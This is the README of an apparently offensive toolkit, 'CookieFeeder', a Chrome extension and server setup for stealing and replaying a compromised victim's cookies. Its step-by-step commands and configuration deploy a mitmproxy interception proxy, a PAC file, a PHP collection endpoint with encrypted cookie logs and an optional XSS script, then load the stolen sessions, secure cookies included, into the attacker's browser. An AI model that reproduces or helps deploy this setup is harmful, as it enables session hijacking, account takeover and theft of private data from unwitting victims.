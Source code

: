 # CookieFeeder

CookieFeeder is a Chrome Extension designed to help in the process of cloning cookies from a compromised victim, by replicating the cookies from a remote log file into the browser. The extension will inject all cookies, including secured cookies, into all compromised websites without the need to have url opened.

## Server Setup

Follow this in case you want to do a full setup, including the server for capturing the cookies. Otherwise, skip to the next section.

1. Create an EC2/Lightsail instance. Install apache2, setup your domain and SSL certificates.

2. Clone the repository:
    ```
    git clone https://github.com/thiagomayllart/Blender
    cd Blender/CookieFeeder
    ``` 
3. Install mitmproxy:
    ```
    apt install mitmproxy
    ```
4. Change `cert_gen.cnf` as you wish. This is the config file to create the CA certificate and key. Ideally you will only need to change the "dn" section with other information.
5. Run
    ```
    ./generate_certs.sh`
    ```
6. Save your `server.php` in your apache2 path (e.g. /var/www/html). You can change the filename, only ensure you have installed php mod in your apache2 server:
    ```
    apt install php libapache2-mod-php
    ```
7. Generate you IV and key:
    ```
    ./generate_key_iv.sh
    ```
8. Replace the KEY and IV in the `cookie_monitor.py` file:
    ```
    KEY = base64.b64decode('YOUR_KEY')
    IV = base64.b64decode('YOUR_IV')
    ```
9. Replace the PHP url in the `cookie_monitor.py` file. This should be the url of the server.php:
    ```
    SERVER_URL = 'https://YOUR_ENDPOINT/server.php'
    ```
10. Add your Slack Webhook for alerting upon new connections:
    ```
    SLACK_WEBHOOK_URL = 'https://ADD_HERE'
    ```
11. If you are injecting XSS in the pages, replace here:
    ```
    script.src = 'YOUR_SCRIPT_JS_URL';
    ```
12. Also replace this variable `WHITELISTED_HOST` with the url your XSS is stored.
13. Modify the `your_proxy_domain` in the settings.pac file. This should be the endpoint you will be running your proxy. Ideally, the proxy and the apache2 should be in the same server, thus, the domain should be the same.
14. Store your settings.pac file (and change the name) in the root of your apache web server.
15. Start the proxy:
    ```
    mkdir logs
    mkdir /var/www/html/cookies/
    mitmdump -s cookie_monitor.py --set stream_large_bodies=1m --set flow_detail=0 --set max_flow_size=100m --set connection_strategy=lazy --set block_global=false -p 8080
    ```

## Extension Setup

1. Clone the repository:
```
git clone https://github.com/thiagomayllart/CookieFeeder
```
2. Create a new Chrome Profile. This is useful to avoid overwriting or conflicting with your actual cookies.
```
Customize and Control Google Chrome -> Select the current Profile -> Add new profile
```
3. Install CookieFeeder. 
4. You should have already created your key/IV from the previous section, if not, run `generate_key_iv.sh`. Using those keys, replace `YOUR_KEY` and `YOUR_IV` in CookieFeeder/cookiefeeder/background.js.
    - a. ```Navigate to chrome://extensions/```
    - b. ```Select "load unpacked"```
    - c. ```Select the cookiefeeder directory inside the clone repository```
    - d. ```Extension will be added to Chrome```

5. Click on the extension icon, input the Cookies URL and click on Save. Wait a few seconds as the cookies will be synchronized with your Chrome profile.

